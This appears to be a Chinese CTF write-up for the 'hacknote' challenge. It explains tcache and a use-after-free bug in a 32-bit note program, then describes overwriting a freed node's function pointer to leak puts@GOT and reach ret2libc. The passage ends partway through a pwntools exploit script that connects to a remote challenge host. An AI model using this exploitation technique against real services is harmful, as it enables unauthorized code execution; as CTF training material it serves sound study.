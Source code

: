 ```c
#endif
};
```

**Tcache**

在GLIBC versions >= 2.26中才有，tcache的行为类似arena，但与arena不同，tcache不会在线程之间共享。设计目的：缓解malloc资源的线程争用

**UAF**

即use after free

**例题 攻防世界hacknote**

首先是源码分析：看到是一个有着增删查功能的结点表

检查保护发现有canary保护和NX保护，32位

![](F:%5CPWN%5Chacknote1.png)

ida中查看，主函数就不看了就是一个choice的选择分支，主要看我们可以利用的函数——增，删，查函数

![hacknote2](F:%5CPWN%5Chacknote2.png)

![hacknote3](F:%5CPWN%5Chacknote3.png)

![hacknote4](F:%5CPWN%5Chacknote4.png)

然后我们需要注意的是，每个节点里面包含一个print\_self的指针和chunk块，chunk块里面存放着用户数据（size和context）

删除节点是采用的free节点所处内存的方法，根据free函数的原理，我们在清除节点时并不会删除地址内存放的数据，所以print\_self指针仍然可以被调用，这也就是UAF的漏洞（由于全局变量note\_list没有删除对应节点，仍然记录着前两个节点），当我们申请两个节点并把他们都释放掉，再申请一个大小为8的节点，我们就能被分配到前两个节点曾经使用的空间，这时也就是说我们可以任意改动原本存放print\_self地址处的内容并且通过调用print节点来执行这个地址上的函数（程序把这个地址当作print来用，但已经被某黑心的黑客篡改为他想要执行的函数）

这时我们调用put函数打印got表，泄露处libc基址，就可以ret2libc了\~

理论存在实践开始：

直接放exp\~

```python
from pwn import *
from LibcSearcher import*
#p = process('./hacknote')
p = remote('61.147.171.105',55382)
elf = ELF("./hacknote")
libc = ELF("./libc_32.so.6")

puts_func_addr = 0x804862B
puts_got = elf.got['puts']

def Add(size,string):
	p.recvuntil("Your choice :")
	p.sendline('1')
	p.recvuntil("Note size :")
	p.sendline(str(size))
	p.recvuntil("Content :")
	p.sendline(string)

def Delete(index):
	p.recvuntil("Your choice :")
	p.sendline('2')
	p.recvuntil("Index :")
	p.sendline(str(index))

def Exit():
	p.recvuntil("Your choice :")
	p.sendline('4')

```